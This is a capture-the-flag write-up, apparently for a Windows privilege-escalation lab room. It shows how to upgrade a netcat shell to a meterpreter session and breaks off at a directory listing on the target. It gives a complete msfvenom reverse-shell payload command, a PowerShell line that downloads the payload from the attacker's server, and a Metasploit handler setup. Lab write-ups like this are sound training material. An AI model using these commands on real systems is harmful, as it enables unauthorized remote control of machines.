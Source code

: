 # [Task 4] Windows Privilege Escalation

## #4.0 - Instructions

In this task we will learn about the basics of Windows Privilege Escalation.

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered information to exploit the system and become the Administrator.

## #4.1

**Instructions**

Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom.

If you don’t know how to do this, I suggest completing the Metasploit room first!

Tip: You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!

**Answer**

Let’s generate our executable with msfvenom (make sure you select a different port as the one used for the previous reverse shell):

$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.**.** LPORT=2345 -f exe -o revshell.exe

Now, let’s download the payload from the server. To do that, we’ll first start a web server (from the same location where our exe is):

$ python3 -m http.server

Now, on the reverse shell, enter the following command:

powershell -c "Invoke-WebRequest -Uri 'http://10.9.**.**:8000/revshell.exe' -OutFile 'c:\windows\temp\revshell.exe'"

Now, open `msfconsole`:

$ msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/handler) > set LPORT 2345
LPORT => 2345
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:2345 

Now, back to the reverse shell, let’s start the executable:

c:\windows\system32\inetsrv>cd \windows\temp
dir
c:\Windows\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Windows\Temp
05/17/2020  07:01 AM    <DIR>          .
05/17/2020  07:01 AM    <DIR>          ..
08/06/2019  02:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
08/06/2019  02:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
08/06/2019  02:13 PM             1,206 cleanup.txt
08/06/2019  02:13 PM               421 cmdout
08/06/2019  02:11 PM                 0 DMI2EBC.tmp
08/03/2019  10:43 AM                 0 DMI4D21.tmp